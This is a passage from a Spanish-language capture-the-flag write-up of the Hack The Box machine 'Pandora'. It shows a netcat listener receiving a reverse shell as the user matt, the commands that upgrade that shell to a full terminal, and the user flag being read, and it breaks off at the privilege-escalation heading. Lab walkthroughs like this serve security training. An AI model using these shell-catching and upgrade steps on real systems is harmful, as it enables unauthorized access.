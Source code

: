 ## Shell as matt 

Ahora nos vamos a poner en escucha 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Enviamos la **shell** 

![](/assets/images/htb-writeup-pandora/web25.png)

Y nos llega la shell 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.136] 58230
bash: cannot set terminal process group (877): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/images/xd$ whoami
whoami
matt
matt@pandora:/var/www/pandora/pandora_console/images/xd$ 
```

Ahora vamos a hacer un tratamiento de la **tty** 

```bash
matt@pandora:/var/www/pandora/pandora_console/images/xd$ script /dev/null -c bash
<pandora_console/images/xd$ script /dev/null -c bash     
Script started, file is /dev/null
matt@pandora:/var/www/pandora/pandora_console/images/xd$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
matt@pandora:/var/www/pandora/pandora_console/images/xd$ export TERM=xterm
```

## User.txt 

```bash
matt@pandora:/home/matt$ cat user.txt 
7013a510dc89a775b5ca748e04f09a0c
matt@pandora:/home/matt$ 
``` 

## Escalada de privilegios 
